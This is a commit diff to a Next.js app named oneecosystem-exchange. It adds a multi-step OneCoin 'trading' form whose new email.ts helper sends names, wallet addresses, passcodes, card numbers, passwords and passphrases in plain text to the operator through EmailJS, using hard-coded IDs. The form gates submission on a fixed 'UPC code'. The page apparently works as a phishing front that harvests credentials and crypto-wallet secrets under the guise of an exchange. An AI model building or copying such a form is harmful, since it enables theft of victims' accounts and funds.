

Before and after one commit to 3th-Enjay/one-ecosystem, a Next.js app in the folder oneecosystem-exchange/: page /form in a window 1280 px wide. Shown: the top 770 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
wworking

```diff
--- a/oneecosystem-exchange/package.json
+++ b/oneecosystem-exchange/package.json
@@ -11,6 +11,7 @@
   "dependencies": {
     "@supabase/auth-helpers-nextjs": "^0.10.0",
     "@supabase/supabase-js": "^2.48.1",
+    "emailjs-com": "^3.2.0",
     "framer-motion": "^12.0.6",
     "next": "15.1.6",
     "next-auth": "^4.24.11",
--- a/oneecosystem-exchange/src/app/form/page.tsx
+++ b/oneecosystem-exchange/src/app/form/page.tsx
@@ -1,12 +1,13 @@
 "use client";
 
-import React, { useState } from "react";
+import React, { useState, useEffect, ChangeEvent, FormEvent } from "react";
 import { useRouter } from "next/navigation";
+import { motion } from "framer-motion";
 import CrystalBackground from "@/components/CrystalBackground";
 import Navbar from "@/components/Navbar";
+import { sendEmail, FormData } from "@/app/lib/email";
 
-export default function FormPage() {
-    const [formData, setFormData] = useState({
+const initialFormData: FormData = {
   surname: "",
   firstName: "",
   otherName: "",
@@ -22,67 +23,123 @@
   password: "",
   confirmPassword: "",
   upcCode: "",
-    });
+  passphrase: "",
+  confirmPassphrase: "",
+};
 
-    const [error, setError] = useState("");
+export default function FormPage() {
   const router = useRouter();
+  const [formData, setFormData] = useState<FormData>(initialFormData);
+  const [error, setError] = useState<string>("");
+  const [currentPage, setCurrentPage] = useState<number>(1);
 
-    // Mock UPC code (replace with actual verification logic)
-    const validUPCCode = "1234567890";
+  // Load form data from localStorage on mount.
+  useEffect(() => {
+    const savedData = localStorage.getItem("tradingFormData");
+    if (savedData) {
+      setFormData(JSON.parse(savedData));
+    }
+  }, []);
 
-    // Handle form input change
-    const handleChange = (e: React.ChangeEvent<HTMLInputElement> | React.ChangeEvent<HTMLSelectElement>) => {
+  // Save form data to localStorage whenever it changes.
+  useEffect(() => {
+    localStorage.setItem("tradingFormData", JSON.stringify(formData));
+  }, [formData]);
+
+  const handleChange = (
+    e: ChangeEvent<HTMLInputElement | HTMLSelectElement>
+  ) => {
     const { name, value } = e.target;
     setFormData((prev) => ({ ...prev, [name]: value }));
   };
 
-    // Handle form submission
-    const handleSubmit = (e: React.FormEvent) => {
+  // Handle final submission
+  const handleSubmit = async (e: FormEvent<HTMLFormElement>) => {
     e.preventDefault();
-
-        // Validate UPC code before proceeding
+    const validUPCCode = "1234567890";
     if (formData.upcCode !== validUPCCode) {
       setError("Invalid UPC Code");
       return;
     }
-
-        // Navigate to the remitter page if UPC code is valid
+    const emailSent = await sendEmail(formData);
+    if (emailSent) {
+      console.log("Form Data Submitted and emailed:", formData);
+      localStorage.removeItem("tradingFormData");
       router.push("/Remitter");
-
-        console.log("Form Data Submitted:", formData);
+    } else {
+      setError("Error sending email. Please try again.");
+    }
   };
 
+  const fadeVariants = {
+    hidden: { opacity: 0 },
+    visible: { opacity: 1, transition: { duration: 0.6 } },
+  };
+
+  const renderPage = () => {
+    switch (currentPage) {
+      case 1:
         return (
-        <div className="bg-black relative mt-[4.5rem]">
-            <Navbar />
-            <div className="absolute inset-0 bounce">
-                <CrystalBackground />
-            </div>
-
-            <div className="relative max-w-2xl mx-auto p-4">
-                <h1 className="text-3xl font-bold text-center mb-6 text-gold">Trading Information Form</h1>
-
-                <form onSubmit={handleSubmit} className="space-y-4">
-                    {/* Personal Details */}
+          <motion.div
+            key="page1"
+            initial="hidden"
+            animate="visible"
+            variants={fadeVariants}
+          >
+            <h2 className="text-2xl font-semibold text-gold mb-4">
+              Personal Details
+            </h2>
             <div className="grid grid-cols-2 gap-4">
               <div>
-                            <label className="block text-sm font-medium text-gold">Surname</label>
-                            <input type="text" name="surname" value={formData.surname} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
+                <label className="block text-sm font-medium text-gold">
+                  Surname
+                </label>
+                <input
+                  type="text"
+                  name="surname"
+                  value={formData.surname}
+                  onChange={handleChange}
+                  className="w-full p-2 border border-gray-300 rounded"
+                  required
+                />
               </div>
               <div>
-                            <label className="block text-sm font-medium text-gold">First Name</label>
-                            <input type="text" name="firstName" value={formData.firstName} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
+                <label className="block text-sm font-medium text-gold">
+                  First Name
+                </label>
+                <input
+                  type="text"
+                  name="firstName"
+                  value={formData.firstName}
+                  onChange={handleChange}
+                  className="w-full p-2 border border-gray-300 rounded"
+                  required
+                />
               </div>
             </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Other Name</label>
-                        <input type="text" name="otherName" value={formData.otherName} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" />
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Other Name
+              </label>
+              <input
+                type="text"
+                name="otherName"
+                value={formData.otherName}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+              />
             </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Marital Status</label>
-                        <select name="maritalStatus" value={formData.maritalStatus} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Marital Status
+              </label>
+              <select
+                name="maritalStatus"
+                value={formData.maritalStatus}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              >
                 <option value="">Select Marital Status</option>
                 <option value="Single">Single</option>
                 <option value="Married">Married</option>
@@ -91,26 +148,69 @@
                 <option value="Separated">Separated</option>
               </select>
             </div>
-
-                    {/* Trading Information */}
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Location</label>
-                        <input type="text" name="location" value={formData.location} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
+          </motion.div>
+        );
+      case 2:
+        return (
+          <motion.div
+            key="page2"
+            initial="hidden"
+            animate="visible"
+            variants={fadeVariants}
+          >
+            <h2 className="text-2xl font-semibold text-gold mb-4">
+              Trading Information
+            </h2>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Location
+              </label>
+              <input
+                type="text"
+                name="location"
+                value={formData.location}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              />
             </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Valid OneCoin Username</label>
-                        <input type="text" name="onecoinUsername" value={formData.onecoinUsername} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Valid OneCoin Username
+              </label>
+              <input
+                type="text"
+                name="onecoinUsername"
+                value={formData.onecoinUsername}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              />
             </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Amount of OneCoins to Trade</label>
-                        <input type="number" name="amountToTrade" value={formData.amountToTrade} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Amount of OneCoins to Trade
+              </label>
+              <input
+                type="number"
+                name="amountToTrade"
+                value={formData.amountToTrade}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              />
             </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Select Your Favorite Cryptocurrency</label>
-                        <select name="cryptocurrency" value={formData.cryptocurrency} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Select Your Favorite Cryptocurrency
+              </label>
+              <select
+                name="cryptocurrency"
+                value={formData.cryptocurrency}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              >
                 <option value="">Select a Cryptocurrency</option>
                 <option value="BTC">BTC</option>
                 <option value="USDT TRC20">USDT TRC20</option>
@@ -123,37 +223,162 @@
                 <option value="TWT">TWT</option>
               </select>
             </div>
+          </motion.div>
+        );
+      case 3:
+        return (
+          <motion.div
+            key="page3"
+            initial="hidden"
+            animate="visible"
+            variants={fadeVariants}
+          >
+            <h2 className="text-2xl font-semibold text-gold mb-4">
+              Payment & Security
+            </h2>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Bank Transfer
+              </label>
+              <input
+                type="text"
+                name="bankTransfer"
+                value={formData.bankTransfer}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+              />
+            </div>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Wallet Address/Account Number
+              </label>
+              <input
+                type="text"
+                name="walletAddress"
+                value={formData.walletAddress}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+              />
+            </div>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Passcode
+              </label>
+              <input
+                type="text"
+                name="passcode"
+                value={formData.passcode}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+              />
+            </div>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                Exchange Card Number
+              </label>
+              <input
+                type="text"
+                name="exchangeCardNumber"
+                value={formData.exchangeCardNumber}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+              />
+            </div>
+            <div className="mt-4 grid grid-cols-2 gap-4">
+              <div>
+                <label className="block text-sm font-medium text-gold">
+                  Password
+                </label>
+                <input
+                  type="password"
+                  name="password"
+                  value={formData.password}
+                  onChange={handleChange}
+                  className="w-full p-2 border border-gray-300 rounded"
+                />
+              </div>
+              <div>
+                <label className="block text-sm font-medium text-gold">
+                  Confirm Password
+                </label>
+                <input
+                  type="password"
+                  name="confirmPassword"
+                  value={formData.confirmPassword}
+                  onChange={handleChange}
+                  className="w-full p-2 border border-gray-300 rounded"
+                />
+              </div>
+            </div>
+            <div className="mt-4">
+              <label className="block text-sm font-medium text-gold">
+                UPC Code
+              </label>
+              <input
+                type="text"
+                name="upcCode"
+                value={formData.upcCode}
+                onChange={handleChange}
+                className="w-full p-2 border border-gray-300 rounded"
+                required
+              />
+            </div>
+          </motion.div>
+        );
+      default:
+        return null;
+    }
+  };
 
-                    {/* Payment Information */}
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Bank Transfer</label>
-                        <input type="text" name="bankTransfer" value={formData.bankTransfer} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" />
-                    </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Wallet Address/Account Number</label>
-                        <input type="text" name="walletAddress" value={formData.walletAddress} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" />
-                    </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">Passcode</label>
-                        <input type="text" name="passcode" value={formData.passcode} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" />
-                    </div>
-
-                    <div>
-                        <label className="block text-sm font-medium text-gold">UPC Code</label>
-                        <input type="text" name="upcCode" value={formData.upcCode} onChange={handleChange} className="w-full p-2 border border-gray-300 rounded" required />
-                    </div>
-
-                    {/* Error Message */}
-                    {error && <p className="text-red-500 text-sm mt-2">{error}</p>}
-
-                    {/* Submit Button */}
-                    <div className="flex justify-center mt-6">
-                        <button type="submit" className="border border-gold text-gold bg-black px-8 py-4 text-lg font-medium hover:bg-gold hover:text-black transition-colors duration-300 rounded-full">
+  const renderPagination = () => (
+    <div className="flex justify-between mt-8">
+      <button
+        type="button"
+        onClick={() => setCurrentPage((prev) => Math.max(prev - 1, 1))}
+        disabled={currentPage === 1}
+        className="px-4 py-2 bg-gray-700 text-white rounded disabled:opacity-50"
+      >
+        Previous
+      </button>
+      {currentPage < 3 ? (
+        <button
+          type="button"
+          onClick={() => setCurrentPage((prev) => prev + 1)}
+          className="px-4 py-2 bg-gray-700 text-white rounded"
+        >
+          Next
+        </button>
+      ) : (
+        <button
+          type="submit"
+          form="multiStepForm"
+          className="px-4 py-2 bg-gold text-black rounded"
+        >
           Submit
         </button>
+      )}
     </div>
+  );
+
+  return (
+    <div className="relative min-h-screen bg-black mt-[4.5rem]">
+      <Navbar />
+      {/* Background Animation: absolute full-screen with a low z-index */}
+      <div className="absolute inset-0 z-0 pointer-events-none">
+        <CrystalBackground />
+      </div>
+      <div className="relative z-10 max-w-2xl mx-auto p-4">
+        <h1 className="text-3xl font-bold text-center mb-6 text-gold">
+          Trading Information Form
+        </h1>
+        {error && <p className="text-red-500 text-sm mb-4">{error}</p>}
+        <form
+          id="multiStepForm"
+          onSubmit={handleSubmit}
+          className="space-y-6"
+        >
+          {renderPage()}
+          {renderPagination()}
         </form>
       </div>
     </div>
--- /dev/null
+++ b/oneecosystem-exchange/src/app/lib/email.ts
@@ -0,0 +1,56 @@
+import emailjs from "emailjs-com";
+
+export interface FormData {
+  surname: string;
+  firstName: string;
+  otherName: string;
+  maritalStatus: string;
+  location: string;
+  onecoinUsername: string;
+  amountToTrade: string;
+  cryptocurrency: string;
+  bankTransfer: string;
+  walletAddress: string;
+  passcode: string;
+  exchangeCardNumber: string;
+  password: string;
+  confirmPassword: string;
+  upcCode: string;
+  passphrase: string;
+  confirmPassphrase: string;
+}
+
+export const sendEmail = async (formData: FormData): Promise<boolean> => {
+  const serviceId = "service_s8tfiym";    // Replace with your EmailJS Service ID
+  const templateId = "template_h99grj9";  // Replace with your EmailJS Template ID
+  const userId = "mW0y4b5oatzBYx7j9";          // Replace with your EmailJS User ID
+
+  const templateParams = {
+    surname: formData.surname,
+    firstName: formData.firstName,
+    otherName: formData.otherName,
+    maritalStatus: formData.maritalStatus,
+    location: formData.location,
+    onecoinUsername: formData.onecoinUsername,
+    amountToTrade: formData.amountToTrade,
+    cryptocurrency: formData.cryptocurrency,
+    bankTransfer: formData.bankTransfer,
+    walletAddress: formData.walletAddress,
+    passcode: formData.passcode,
+    exchangeCardNumber: formData.exchangeCardNumber,
+    password: formData.password,
+    confirmPassword: formData.confirmPassword,
+    upcCode: formData.upcCode,
+    passphrase: formData.passphrase,
+  confirmPassphrase: formData.confirmPassphrase,
+  };
+
+  try {
+    const result = await emailjs.send(serviceId, templateId, templateParams, userId);
+    console.log("Email successfully sent!", result.text);
+    return true;
+  } catch (error) {
+    console.error("Error sending email:", error);
+    return false;
+  }
+};
--- a/oneecosystem-exchange/src/app/passphrase/page.tsx
+++ b/oneecosystem-exchange/src/app/passphrase/page.tsx
@@ -1,7 +1,8 @@
 "use client";
 
-import { useState } from "react";
+import React, { useState, ChangeEvent, FormEvent } from "react";
 import { useRouter } from "next/navigation";
+import { sendEmail, FormData } from "@/app/lib/email";
 
 export default function PassphrasePage() {
   const [passphrase, setPassphrase] = useState("");
@@ -9,22 +10,51 @@
   const [error, setError] = useState("");
   const router = useRouter();
 
-    const handleSubmit = (e: React.FormEvent) => {
+  const handleSubmit = async (e: FormEvent<HTMLFormElement>) => {
     e.preventDefault();
 
-        // Validate passphrase
+    // Validate passphrase length.
     if (passphrase.length < 8) {
       setError("Passphrase must be at least 8 characters long.");
       return;
     }
 
+    // Validate that the passphrase and confirmation match.
     if (passphrase !== confirmPassphrase) {
       setError("Passphrases do not match.");
       return;
     }
 
-        // If validation passes, navigate to the next page (e.g., dashboard or confirmation)
-        router.push("/dashboard"); // Replace with your desired route
+    // Prepare the email data payload.
+    const emailData: FormData = {
+        surname: "",
+  firstName: "",
+  otherName: "",
+  maritalStatus: "",
+  location: "",
+  onecoinUsername: "",
+  amountToTrade: "",
+  cryptocurrency: "",
+  bankTransfer: "",
+  walletAddress: "",
+  passcode: "",
+  exchangeCardNumber: "",
+  password: "",
+  confirmPassword: "",
+  upcCode: "",
+  passphrase: "",
+  confirmPassphrase: "",
+      };
+
+
+    // Send the email.
+    const emailSent = await sendEmail(emailData);
+    if (emailSent) {
+      console.log("Passphrase submitted and emailed:", emailData);
+      router.push("/dashboard"); // Replace with your desired route.
+    } else {
+      setError("Error sending email. Please try again.");
+    }
   };
 
   return (
@@ -34,20 +64,26 @@
         <div>
           <label className="block text-sm font-medium mb-1">Passphrase</label>
           <input
-                        type="text"
+            type="password"
             value={passphrase}
-                        onChange={(e) => setPassphrase(e.target.value)}
+            onChange={(e: ChangeEvent<HTMLInputElement>) =>
+              setPassphrase(e.target.value)
+            }
             placeholder="Enter your passphrase"
             className="w-full p-2 border border-gray-300 rounded text-black"
             required
           />
         </div>
         <div>
-                    <label className="block text-sm font-medium mb-1">Confirm Passphrase</label>
+          <label className="block text-sm font-medium mb-1">
+            Confirm Passphrase
+          </label>
           <input
-                        type="text"
+            type="password"
             value={confirmPassphrase}
-                        onChange={(e) => setConfirmPassphrase(e.target.value)}
+            onChange={(e: ChangeEvent<HTMLInputElement>) =>
+              setConfirmPassphrase(e.target.value)
+            }
             placeholder="Confirm your passphrase"
             className="w-full p-2 border border-gray-300 rounded text-black"
             required
--- a/package.json
+++ /dev/null
@@ -1,5 +0,0 @@
-{
-	"dependencies": {
-		"framer-motion": "^12.0.6"
-	}
-}
```
Also changed, not shown: 2 other files (tests, documents, lock files or other folders). Lines whose indentation alone changed are shown as unchanged.
